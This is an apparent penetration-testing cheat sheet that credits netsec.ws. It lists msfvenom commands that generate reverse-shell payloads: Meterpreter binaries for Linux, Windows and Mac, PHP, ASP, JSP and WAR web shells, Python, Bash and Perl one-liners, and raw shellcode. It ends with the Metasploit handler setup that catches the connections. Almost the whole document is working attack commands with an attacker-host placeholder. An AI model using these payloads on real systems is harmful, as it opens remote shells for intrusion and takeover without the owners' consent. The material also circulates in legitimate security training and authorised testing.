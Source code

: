# Metasploit https://netsec.ws/?p=331

```
msfinit

msfconsole
```


## List payloads
```
msfvenom -l
```

## Binaries

### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

## Web Payloads

### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## Scripting Payloads

### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Shellcode

### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

## Creating Metasploit Payloads
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
